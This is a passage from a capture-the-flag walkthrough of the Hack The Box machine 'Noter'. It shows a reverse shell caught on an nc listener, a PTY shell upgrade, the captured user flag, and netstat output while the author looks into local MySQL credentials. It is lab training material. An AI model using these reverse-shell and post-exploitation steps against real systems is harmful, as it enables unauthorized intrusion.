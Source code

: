 Click export and then switch to our nc terminal to see we're connected:

```text
┌──(root㉿kali)-[~/htb/noter]
└─# nc -nlvp 4444               
listening on [any] 4444 ...
connect to [10.10.14.73] from (UNKNOWN) [10.10.11.160] 34594

svc@noter:~/app/web$ id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
```

Let's upgrade to a better shell before we move on:

```text
svc@noter:~/app/web$ python3 -c 'import pty;pty.spawn("/bin/bash")'
svc@noter:~/app/web$ ^Z  
zsh: suspended  nc -nlvp 4444
┌──(root㉿kali)-[~/htb/noter]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 4444
svc@noter:~/app/web$ export TERM=xterm
```

## User Flag

Grab the user flag first:

```text
svc@noter:~/app/web$ cat /home/svc/user.txt 
18d88b0dcf2a0747c88cd8f46aeaadab
```

The path to root is pretty simple, but to get there we need to think back to what we found previously. When we did a diff on the app.py scripts we found mysql credentials in one of them. With this being a CTF things like that always raise suspicions.

## MySQL

So first let's check mysql is running locally:

```text
svc@noter:~/app/web$ netstat -punta
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      1262/python3        
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0    159 10.10.11.160:34610      10.10.14.73:4444        ESTABLISHED 1080107/python3     
tcp        0      0 127.0.0.1:33140         127.0.0.1:3306          ESTABLISHED -                   
tcp        0      0 127.0.0.1:3306          127.0.0.1:33140         ESTABLISHED -                   
```
